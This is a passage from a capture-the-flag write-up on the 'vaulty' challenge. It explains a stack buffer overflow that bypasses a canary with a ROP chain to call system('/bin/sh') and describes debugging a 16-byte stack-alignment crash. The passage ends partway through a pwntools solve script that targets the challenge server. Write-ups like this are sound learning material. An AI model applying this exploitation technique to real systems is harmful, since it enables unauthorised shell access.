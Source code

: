 #### Overflow payload
The buffer overflow payload would be something like,
```
random (n bytes) + canary (8 bytes) + random (8 bytes) + rop-chain
```
I used Return oriented programming (ROP) to set the stack suitable for calling `system('/bin/sh')`. The ROP payload sets up `rdi` register (first argument) to address of `'/bin/sh'` before jumping to `system()`. 

### 2. Stack alignment problems
After setting up the exploit, I was able to successfully redirect control flow into libc's `system()`. However I got SIGSEGV inside `do_system()` on `movabs` instruction. With breakpoint set to `system()`, I verfied contents of the stack just before the control jumps into libc. The return address was properly replaced and `rdi` had pointer to string `/bin/sh`. This should result in successful shell, but SIGSEGV got me like,  

![Jackie chan confused](../images/vaulty/jackie-confused.png){:style="display:block; margin-left:auto; margin-right:auto"}

Like always, stackoverflow got me covered. This [post](https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul) explains the stack alignment requirement in x86_64. The stack has to be 16-byte aligned, found out the hard way. I added one extra `ret` gadget on top of my ROP chain to fix this.

### 3. Solve.py 
```python
from pwn import *

target = './vaulty'
# libc taken from 
# ubuntu@sha256:bbf3d1baa208b7649d1d0264ef7d522e1dc0deeeaaf6085bf8e4618867f03494 
libc = ELF('./libc.so.6')

context.log_level = 'info'
#context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'amd64'

# io = gdb.debug(target, gdbscript='''
# set breakpoint pending on
# break system
# continue
# ''')
#io = process(target)
io = remote('vaulty.insomnihack.ch', 4556)

'''
```
